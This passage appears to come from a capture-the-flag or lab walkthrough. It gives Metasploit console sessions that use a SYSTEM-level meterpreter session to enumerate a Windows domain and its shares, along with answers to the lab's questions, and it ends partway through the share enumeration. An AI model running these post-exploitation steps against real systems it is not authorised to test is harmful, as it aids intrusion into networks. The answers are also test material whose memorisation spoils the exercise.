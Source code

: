 set session then run
```bash
msf6 post(windows/gather/enum_domain) > show options

Module options (post/windows/gather/enum_domain):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(windows/gather/enum_domain) > sessions -i

Active sessions
===============

  Id  Name  Type                     Information                      Connection
  --  ----  ----                     -----------                      ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ACME-TEST  10.10.2.3:4444 -> 10.10.105.71:53161 (10.10.105.71)

msf6 post(windows/gather/enum_domain) > set session 1
session => 1
msf6 post(windows/gather/enum_domain) > run
[+] Domain FQDN: FLASH.local
[+] Domain NetBIOS Name: FLASH
[+] Domain Controller: ACME-TEST.FLASH.local (IP: 10.10.105.71)
[*] Post module execution completed
msf6 post(windows/gather/enum_domain) > 
```

### Question 3:
What is the name of the share likely created by the user?

**Answer:** speedster

for this one you need to use this post/windows/gather/enum_shares 
```bash
msf6 post(windows/gather/enum_domain) > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > show options

Module options (post/windows/gather/enum_shares):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CURRENT  true             yes       Enumerate currently configured shares
   ENTERED  true             yes       Enumerate recently entered UNC Paths in the Run Dialog
   RECENT   true             yes       Enumerate recently mapped shares
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(windows/gather/enum_shares) > session
```
set session and then run
```bash
msf6 post(windows/gather/enum_shares) > session -i
[-] Unknown command: session. Did you mean sessions? Run the help command for more details.
msf6 post(windows/gather/enum_shares) > sessions -i

Active sessions
===============
```